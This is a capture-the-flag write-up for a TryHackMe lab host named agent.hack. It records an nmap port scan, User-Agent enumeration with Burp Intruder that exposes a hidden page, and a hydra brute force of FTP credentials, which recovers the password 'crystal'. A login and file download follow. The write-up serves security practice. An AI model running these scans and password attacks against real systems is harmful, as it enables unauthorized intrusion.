 Identifying all ports.
```
nmap -T4 -p- -oA recon/nmap/allports agent.hack
```

### FTP (21/TCP)

Anonymous authentication not enabled.

### HTTP (80/TCP)

Landing page contains the following text:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Using BurpSuite intruder to test all capital letters.

Nothing worked with using "Agent {}", trying just "{}".

Anonmalies: C, R

R is an error, C returns "agent_C_attention.php" in the Location header.

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

Agent R seems to run things, Agent C's name is Chris and password is weak, there is an Agent J.

Bruteforcing the password for FTP with all seven letter passwords from rockyou (TryHackMe prompt shows it to be seven letters) and the following username: chris

## Cracking the Perimeter

Bruteforcing FTP.
```
hydra -l chris -P ctp/passwords.txt ftp://agent.hack
...
[21][ftp] host: agent.hack   login: chris   password: crystal
```

Had to login with passive FTP, "ftp -p"
```
ftp> ls
227 Entering Passive Mode (10,10,166,225,122,186).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
...
```
